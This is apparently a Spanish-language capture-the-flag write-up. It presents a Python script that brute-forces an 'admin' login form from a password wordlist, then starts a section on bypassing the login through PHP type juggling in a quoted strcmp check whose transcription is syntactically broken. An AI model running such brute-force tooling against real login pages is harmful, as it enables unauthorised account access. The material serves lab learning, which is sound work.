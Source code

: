 ```python

def def_handler(sig, frame):
    print("\n\nSaliendo...\n")
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

def bruteForce():
 
    s = requests.Session()

    passwords = f.readlines()
      
    for password in passwords:
        

        login_data = {
            'username': 'admin',
            'password': password.rstrip()
        }

        p1.status("Probando con la contraseña %s" %password)
        r = s.post(login_url, data=login_data)
        
        if 'Invalid Password!' not in r.text:
            p1.success("La contraseña correcta es %s" %password)
            sys.exit(0)

if __name__ == '__main__':

    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando proceso de fuerza bruta")
    time.sleep(2)

    bruteForce()
```

### Burlear el login panel con TypeJuggling {-}

Mas tarde en el video, el Tito nos muestra el codigo fuente de la pagina de login y se ve que en la comparativa del input **Password**, el
desarollador de la pagina utiliza un codigo php 

```php
if(isset($_POST['username'] == $USER){
    if(strcmp($_POST['password'], $PASS ) == 0){
        S_SESSION['username'] = $USER;
        header( 'Location: manage.php' );
    }
}
```
